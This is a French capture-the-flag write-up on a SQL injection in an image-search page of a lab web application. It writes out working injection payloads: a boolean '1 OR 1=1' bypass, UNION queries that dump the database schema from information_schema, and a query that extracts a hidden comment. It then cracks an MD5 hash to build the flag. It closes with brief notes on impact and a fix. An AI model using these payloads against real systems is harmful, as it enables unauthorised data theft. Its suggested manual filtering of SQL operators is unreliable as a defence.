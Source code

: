 # Explication

Nom de la faille:   SQL_injection_searchimg

Aller sur l'URL:  `http://10.11.200.169/index.php?page=searchimg`

Il y a un input afin de chercher une image.

On a essayé de nombreuses injections SQL avant de trouver. On va résumer avec les injections SQl essentielles

Dans un premier temps, la première  injection qui a fonctionné est:
```
1 OR 1=1
```
http://10.11.200.169/index.php?page=searchimg&id=1+OR+1%3D1&Submit=Submit#


L'injection nous permet d'obtenir toutes la liste de la table `list_images`.



On a ensuite essayé avec un UNION de rajouter une requête afin d'afficher le schéma de la base SQL en entier.

```
	1 OR 1=1 UNION select table_name, table_schema FROM information_schema.columns
    1 OR 1=1 UNION select table_name, column_name FROM information_schema.columns
```

http://10.11.200.169/index.php?page=searchimg&id=1+OR+1%3D1+UNION+select+table_name%2C+column_name+FROM+information_schema.columns&Submit=Submit#

http://10.11.200.169/index.php?page=searchimg&id=1+OR+1%3D1+UNION+select+table_name%2C+column_name+FROM+information_schema.columns&Submit=Submit#



Grâce à ces deux injections, on a pu lire le schéma complet de la base SQL, c'est à dire récuperer tous les noms des colonnes, des tables et des schémas des tables.

Pour cette falle là, on va se concentrer sur la table list_images qui a pour colonnes:
    `id, url, title, comment`

En faisaint l'injection SQL:
```
	 1 OR 1=1 UNION select id, comment FROM Member_images.list_images
```
http://10.11.200.169/index.php?page=searchimg&id=1+OR+1%3D1+UNION+select+id%2C+comment+FROM+Member_images.list_images&Submit=Submit#


On trouve pour `id=5` le `comment="If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46"`.


On decrypte le hash 1928e8083cf461a51303633093573c46 avec md5, on obtient alors `albatroz`.

Puis on encrypte albatroz comme demandé avec sha256, ce qui nous donne le flag `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`



# Comment profiter de la faille ?

Une injection SQL peut mener à une destruction ou vol de données confidentielles.

Par exemple : vol de mots de passes, adresses email, ...

# Comment la fixe ?

Une des solutions les plus simples pour se prémunir de ce genre d'injections, il est possible d'utiliser différents outils (mySqli, PDO, ...).
Manuellement, cela consiste à vérifier qu'il n'y a aucun opérateur SQL dans la variable injectée.

